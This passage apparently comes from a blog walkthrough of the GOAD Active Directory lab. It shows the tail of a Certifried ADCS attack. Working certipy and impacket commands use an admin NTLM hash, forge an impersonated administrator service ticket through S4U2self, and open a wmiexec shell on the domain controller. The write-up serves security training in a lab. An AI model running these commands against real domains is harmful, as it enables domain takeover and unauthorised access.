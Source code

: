 - delete the created computer with a domain admin user

```bash
certipy account delete -u daenerys.targaryen@essos.local -hashes 'aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a' -user 'certifriedpc'
```

![adcs_exploit_certifried.png](/assets/blog/GOAD/adcs_exploit_certifried.png)

- Ok but now imagine you can't dcsync with secretdump due to a security product on the dc, or you just want to get a shell directly on the DC. Let's try to get a shell.
- We got the TGT of the DC (exactly like in part 5 for samaccountname) so we will use impacket getST to impersonate the administrator and get a st to access the DC as administrator (see : [https://www.thehacker.recipes/ad/movement/kerberos/delegations/s4u2self-abuse](https://www.thehacker.recipes/ad/movement/kerberos/delegations/s4u2self-abuse))

> remember to use the good impacket pull request to use this, see part5 for installation (thx again to shutdown for the adds to impacket)

```bash
export KRB5CCNAME=/workspace/certifried/meereen.ccache
python3 /opt/tools/myimpacket/examples/getST.py -self -impersonate 'administrator' -altservice 'CIFS/meereen.essos.local' -k -no-pass -dc-ip 'meereen.essos.local' 'essos.local'/'meereen'
```

- and now we can use our ticket

```bash
export KRB5CCNAME=/workspace/certifried/administrator@CIFS_meereen.essos.local@ESSOS.LOCAL.ccache
wmiexec.py -k @meereen.essos.local
```
